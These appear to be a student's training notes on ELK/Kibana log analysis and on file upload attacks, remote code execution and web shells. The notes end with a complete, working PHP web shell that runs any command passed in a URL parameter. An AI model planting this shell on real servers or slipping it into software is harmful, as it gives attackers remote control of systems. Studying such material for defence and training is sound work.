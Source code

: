 


---
title: "<% tp.file.title %>"
draft: false
tags:
- cybersecurity
- logAnalysis
---
## Operation Blue
### Log Analysis & Introducing ELK
Combo of data analytics and processing tools to make analysing logs much more manageable.

### Using ELK
We will use Kibana Discover interface to revie Apache2 logs
A collection is a group of logs

**Kibana Discovery UAI**
![[Pasted image 20241203210804.png]]

1. **Search Bar:** Here, we can place our search queries using KQL
2. **Index Pattern:** An index pattern is a collection of logs. This can be from a specific host or, for example, multiple hosts with a similar purpose (such as multiple web servers). In this case, the index pattern is all logs relating to "wareville-rails"
3. **Fields:** This pane shows us the fields that Elasticsearch has parsed from the logs. For example, timestamp, response type, and IP address.
4. **Timeline:** This visualisation displays the event count over a period of time
5. **Documents (Logs):** These entries are the specific entries in the log file
6. **Time Filter:** We can use this to narrow down a specific time frame (absolute). Alternatively, we can search for logs based on relativity. I.e. "Last 7 days".


### Kibana Query Language (KQL)
`ip.address: "10.10.10.10"`
It can use Lucene


## Operation Red
### File Upload Vulnerabilities
- **RCE**
- **XSS**

Unrestricted file uploads can be particularly dangerous because they allow an attacker to upload any type of file.

- Uploading a script that the server executes, leading to RCE.  
    
- Uploading a crafted image file that triggers a vulnerability when processed by the server.  
    
- Uploading a web shell and browsing to it directly using a browser.

### Usage of weak credentials
Default credentials


### Remote Code Execution (RCE)
It happens when an attacker finds a way to run their own code on a system.

### What is a Web Shell
It is a script that attackers upload to a vulnerable server, giving them remote control over it.
Typically gives the attacker a web-based interface to run commands.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```









